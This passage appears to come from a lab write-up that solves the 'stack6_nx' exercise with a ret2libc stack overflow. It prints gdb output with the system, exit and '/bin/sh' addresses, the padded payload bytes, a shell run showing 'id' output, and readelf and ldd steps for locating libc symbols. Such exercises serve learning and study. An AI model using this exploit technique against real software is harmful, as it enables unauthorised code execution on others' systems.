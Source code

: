 ```py
print("Payload file is: /tmp/exploit")
print("You can try by using following command: '  (cat /tmp/exploit; cat) | ./stack6_nx'")
```

You can use the script from gdb by using the following command:
**source script.py**  (equivalent to running gdb -x script.py).

```
(gdb) source x.py 
Breakpoint 2 at 0x8048546: file stack6_nx.c, line 28.

Breakpoint 1, main (argc=1, argv=0xffffd1d4) at stack6_nx.c:28
warning: Source file is more recent than executable.
28	
system address: 0xf7e51e70
exit_ address: 0xf7e44f50
binsh_address: 0xf7f71fcc
Payload will be: 
offset + system_address + exit_address + binsh_address

Payload as a bytearray:
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\x1e\xe5\xf7PO\xe4\xf7\xcc\x1f\xf7\xf7'
Payload file is: /tmp/exploit
You can try by using following command: '  (cat /tmp/exploit; cat) | ./stack6_nx '
```

```
$ (cat /tmp/exploit; cat) | ./stack6_nx
input path please: id
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO�����id
id
uid=1000(a) gid=1000(a) groups=1000(a),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

#### 2.3 Improvements for The Solution

1. Checking only address space of **libc** instead of iterating a lot ('find &system,+9999999,"/bin/sh"').

**This is how it can be done by following commands:**

```
$ ldd ./stack6_nx | grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf7e12000)

$ readelf -s /lib32/libc.so.6 | grep system
   243: 00118e50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   620: 0003fe70    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1443: 0003fe70    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0

readelf -s /lib32/libc.so.6 | grep exit
$ readelf -s /lib32/libc.so.6 | grep exit
   111: 00033380    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00032f50    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   ...

Now finding "/bin/sh" from gdb:
(gdb) i proc map
process 13201
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
...TRIM...
	0xf7e12000 0xf7fba000   0x1a8000        0x0 /lib32/libc-2.19.so
	0xf7fba000 0xf7fbc000     0x2000   0x1a7000 /lib32/libc-2.19.so
```